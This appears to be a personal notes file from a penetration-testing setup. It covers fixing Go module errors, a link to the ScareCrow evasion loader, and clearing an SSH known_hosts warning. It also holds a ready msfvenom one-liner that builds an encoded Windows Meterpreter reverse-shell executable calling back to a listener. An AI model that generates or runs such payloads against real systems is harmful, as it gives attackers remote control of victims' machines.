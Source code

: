 ## golang error message
```
#─[[Tue Apr 30 12:44:12 PM EAT 2024]root@parrot]─[/opt/bypas]
└──╼[ZERODIUM]#go get github.com/fatih/color
go: go.mod file not found in current directory or any parent directory.
    'go get' is no longer supported outside a module.
    To build and install a command, use 'go install' with a version,
    like 'go install example.com/cmd@latest'
    For more information, see https://golang.org/doc/go-get-install-deprecation
    or run 'go help get' or 'go help install'.
https://stackoverflow.com/questions/66894200/error-message-go-go-mod-file-not-found-in-current-directory-or-any-parent-dire
294
```

**commands to fix the go issues**
 ```
 export GOROOT=/usr/lib/go-1.21/
 copy to be built in /root/go/src
 use go get what missing
 


Change this:

go env -w GO111MODULE=auto

to this:

go env -w GO111MODULE=off
```


## install scarecrow
[GITHUB PAGE TO CLONE](https://www.grahamhelton.com/blog/scarecrow/)

## MSFVENOM QUICK PAYLOAD GENERATION
```
└──╼[ZERODIUM]#msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.200.224 lport=54654 -f exe -o /media/sf_Shared/own/loader.exe -e  x86/call4_dword_xor -i 00556
```

## SSH KEY FIX error message

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ED25519 key sent by the remote host is
SHA256:BzjQdkX7VjmTT/fmBWUXIs6r5LmIfx9IKVeQiAfJkCM.
Please contact your system administrator.
Add correct host key in /root/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /root/.ssh/known_hosts:8
  remove with:
  ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.200.177"
Host key for 192.168.200.177 has changed and you have requested strict checking.
Host key verification failed.
```
**fix for ssh key error**
```
ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.200.177"
```